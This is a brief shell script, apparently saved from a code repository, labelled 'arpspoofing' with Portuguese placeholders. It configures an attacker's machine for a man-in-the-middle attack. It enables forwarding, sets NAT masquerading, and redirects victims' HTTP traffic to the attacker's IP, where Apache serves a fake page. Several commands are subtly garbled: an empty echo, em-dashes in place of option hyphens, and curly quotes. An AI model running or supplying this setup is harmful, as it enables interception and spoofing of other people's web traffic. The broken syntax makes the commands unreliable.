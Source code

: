 # arpspoofing

echo > /proc/sys/net/ipv4/ip_forward

iptables -t nat —flush

iptables —zero

iptables -A FORWARD —in-interface ‘nome_interface’ -j ACCEPT

iptables -t nat —append POSTROUTING —out-interface ‘nome_interface’ -j MASQUERADE

iptables -t nat -A PREROUTING -p tcp —dport 80 —jump DNAT —to-destination ‘meuip’

apt-get install apache2

echo “esse site eh falso!!” > /var/www/html/index.html
